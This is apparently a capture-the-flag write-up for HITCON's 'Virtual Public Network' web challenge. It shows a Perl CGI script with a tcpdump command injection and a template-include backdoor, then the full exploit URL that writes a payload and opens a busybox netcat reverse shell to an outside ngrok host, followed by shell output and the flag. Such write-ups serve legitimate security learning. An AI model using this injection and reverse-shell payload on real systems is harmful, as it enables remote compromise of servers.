 # Description
Author: [@orange_8361](https://twitter.com/orange_8361)
```
Virtual Public Network [500pts]
Vulnerable Point of Your Network :)
http://13.231.137.9
```

# Hint
```html
<!-- Hint for you :)
<a href='diag.cgi'>diag.cgi</a>
<a href='DSSafe.pm'>DSSafe.pm</a>  -->
```

# diag.cgi
```perl
#!/usr/bin/perl
use lib '/var/www/html/';
use strict;

use CGI ();
use DSSafe;


sub tcpdump_options_syntax_check {
    my $options = shift;
    return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;
    return undef;
}
 
print "Content-type: text/html\n\n";
 
my $options = CGI::param("options");
my $output = tcpdump_options_syntax_check($options);
 

# backdoor :)
my $tpl = CGI::param("tpl");
if (length $tpl > 0 && index($tpl, "..") == -1) {
    $tpl = "./tmp/" . $tpl . ".thtml";
    require($tpl);
}
```
# Command Injection
```perl
return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;
```
# Post on Author's blog
[http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html](http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html)

# Timeline
- Setup Docker container (apache)
- Read author's blog :p
- Discover absolute path of `./tmp/` template dir: `/usr/lib/cgi-bin/tmp/` (thanks to Docker)
- Execute `ls /`, reverse tcp using busybox: `/bin/busybox nc 0.tcp.ap.ngrok.io 12523 -e /bin/sh`
- Read flag: `cd / && ./\$READ_FLAG\$`

# Final works
`http://13.231.137.9/cgi-bin/diag.cgi?options=-r$x="/bin/busybox nc 0.tcp.ap.ngrok.io 12523 -e /bin/sh",system$x%23 2>/usr/lib/cgi-bin/tmp/vinhjaxt.thtml <&tpl=vinhjaxt`
```bash
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34036
whoami
www-data
cd /
ls
$READ_FLAG$
FLAG
bin
boot
dev
etc
home
initrd.img
initrd.img.old
...

./\$READ_FLAG\$
hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}

```
Please follow for more informations:
- https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf
- https://github.com/orangetw/My-CTF-Web-Challenges#virtual-public-network
- http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html
